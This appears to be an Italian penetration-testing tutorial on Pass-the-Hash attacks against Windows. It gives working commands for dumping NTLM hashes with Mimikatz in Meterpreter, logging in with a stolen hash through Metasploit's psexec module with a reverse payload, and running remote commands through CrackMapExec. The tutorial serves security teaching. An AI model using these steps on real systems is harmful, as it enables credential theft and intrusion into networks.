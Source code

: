# Pass The Hash Attack

Il Pass-the-Hash (PtH) è una tecnica che consente di autenticarsi su un sistema remoto senza conoscere la password in chiaro, utilizzando direttamente l’hash NTLM dell’utente. <br>
È un metodo estremamente potente nel contesto del penetration testing perché **bypassa la necessità di conoscere la password vera e propria**, e permette comunque di accedere a servizi remoti che accettano l’autenticazione NTLM (come SMB o WinRM).

Esistono due tipi di HASH:
- **LM (LAN Manager)**: algoritmo obsoleto, case-insensitive (le lettere maiuscole/minuscole sono trattate allo stesso modo), divide le password in due blocchi da 7 caratteri e li cifra con DES. È estremamente debole e vulnerabile a bruteforce.
- **NTLM (NT LAN Manager)**: introdotto con Windows NT, usa un algoritmo basato su MD4, case-sensitive (distingue lettere maiuscole e minuscole), ed è molto più sicuro rispetto a LM, anche se non è salato, quindi vulnerabile a rainbow tables.

In ambienti moderni, **LM è disabilitato per default**, ma NTLM continua ad essere supportato, soprattutto per compatibilità legacy.

La capacità di catturare un hash NTLM è quindi fondamentale: esso rappresenta la “firma” digitale della password, e può essere utilizzato per ottenere l’accesso a risorse di rete, spostarsi lateralmente all'interno dell'infrastruttura e perfino compromettere interi domini Active Directory. <br>
A differenza delle password in chiaro, **gli hash NTLM spesso non vengono ruotati regolarmente** e, una volta ottenuti, **rimangono validi per lunghi periodi**, specialmente se associati ad account amministrativi.

## 1 – Raccolta degli hash con Mimikatz

Dopo aver ottenuto accesso a una macchina target con privilegi elevati, si può eseguire:

`load kiwi` carica l'estensione kiwi <br>
`lsa_dump_sam ` estrae hash SAM + SysKey <br>
`hashdump` dump degli hash NTLM/LM degli utenti <br>

Salviamo gli hash in un file locale, per esempio `hashes.txt`, in modo da poterli riutilizzare nei passaggi successivi.

---

## 2 – Utilizzo dell’hash con Metasploit (PsExec)

`psexec` è un modulo exploit SMB che consente di autenticarsi tramite hash NTLM:

`use exploit/windows/smb/psexec` carica il modulo psexec <br>
`set RHOST <IP>` IP della macchina target <br>
`set SMBUser Administrator` utente con hash disponibile <br>
`set SMBPass <NTLMHash>`# hash dell'utente <br>
`set LHOST <KaliIP>` IP della macchina di attacco <br>
`set LPORT <PortDiversa>` porta diversa da quella già in uso <br>
`set target Native upload` forza l'upload via SMB (default più compatibile) <br>
`run` <br>

### Perché usare `target Native upload`?
Questo target è pensato per caricare manualmente il payload via SMB anziché usare metodi alternativi (come Powershell o VBScript) che possono essere bloccati dalle policy. È spesso il metodo più compatibile in ambienti legacy.

---

## 3 – Uso di CrackMapExec

**CrackMapExec** è un potente tool per testare la sicurezza dei protocolli SMB, WinRM, RDP e altri. Supporta l'autenticazione Pass-the-Hash:

`crackmapexec smb <IP> -u Administrator -H "<NTLMHash>"  # autentica con hash`

Se l'autenticazione ha successo, verrà visualizzato:
```
SMB         <IP>    445    Pwn3d!
```

Possiamo quindi eseguire comandi remoti con:

`crackmapexec smb <IP> -u Administrator -H "<NTLMHash>" -x "ipconfig"`

Questo comando eseguirà `ipconfig` sulla macchina bersaglio e restituirà l'output direttamente a schermo.

---
